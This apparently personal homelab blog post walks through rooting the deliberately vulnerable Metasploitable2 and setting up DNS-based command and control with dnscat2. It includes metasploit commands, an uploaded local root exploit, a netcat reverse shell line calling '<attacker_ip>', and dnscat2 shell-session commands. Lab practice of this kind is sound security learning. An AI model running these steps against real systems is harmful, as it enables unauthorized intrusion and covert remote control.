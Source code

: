 ```yaml
---
title: A quick referesher of the homelab
categories: [homelab]
tags: [homelab, domain, dns, dnscat2]     # TAG names should always be lowercase
---
```


[main](/posts/homelab_intro)

## Gain `root` access on metasploitable2
### Gain `www-data` user access:
```bash
# www-data service user access:
  # searchsploit
  searchsploit apache 2.2.8 # out: Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 
```
msfconsole - metasploit:
	RHOSTS & RPORT- Address & PORT to access the webserver. 
```bash
use php_cgi
set RHOSTS 192.168.189.254
set RPORT 8080
set LPORT 80
run
```

### Root Access:
netcat listener on attacking machine: `sudo netcat -nlvp 443`

```bash
# meterpreter
cd /tmp
upload /usr/share/exploitdb/exploits/linux/local/8572.c ./exp.c
shell

# shell on meterpreter # exp needs "run"
echo '#!/bin/sh' > run
echo '/bin/netcat -e /bin/sh <attacker_ip> 443' >> run
gcc exp.c -o exp
chmod +x exp
cat /proc/net/netlink # search for a positive pid (udev's pid minus 1)
./exp 2708 # say 2708 the pid
```

netcat listener on attacking machine: `whoami`

A better shell (on the attacking machine):
```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
<ctr+z>
stty raw -echo; fg
```
> You should have the root access
{: .prompt-info}

## DNS based command and control
1. Setup an Authoritative DNS server
2. Install dnscat2 on the server and client
3. Get command and control over DNS

Network traffic:
![dns](/assets/img/dnscat2_traffic_blur.png)

## Setup an authoritative DNS server:
If you are using AWS: [STOK’s video](https://youtu.be/p8wbebEgtDk)
Else, (Still, watch that. It's a good learning src.) I made one: 
1. Spin up a droplet. [droplet_setup]
2. [Get a domain name](/posts/c2_over_dns/#get-a-domain-name) and point the nameservers to digitalocean nameservers
3. Setup the domain on digitalocean
4. Set low ttl for each DNS record type (It may take sometime for DNS propagation.)

## C2 using dnscat2
Download dnscat2: `git clone https://github.com/iagox86/dnscat2.git`

Server:
```bash
# mkdir tools; cd tools; git clone dnscat2; cd dnscat2/server
sudo gem install bundler
sudo chown -R <user_name> /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat port=53531 --secret=<secret> example.com # or
sudo ./dnscat --dns port=53531,server=<ip>--secret=<secret>

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
```

## Active Directory setup
[Active Directory on Azure](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f)

- I learnt AD through PEH course by TCM security. I highly recommend going through the course if you are serious about active directory pentesting. The above link is a reommnedation by Heath Adams, and it was a great source for setting up your AD network on Azure (similar setup locally). 

Update: The link is now medium members only. So, go with: https://refabr1k.gitbook.io/oscp/windows/attacking-ad/ad-hacking-lab-setup if you can't use the medium link.
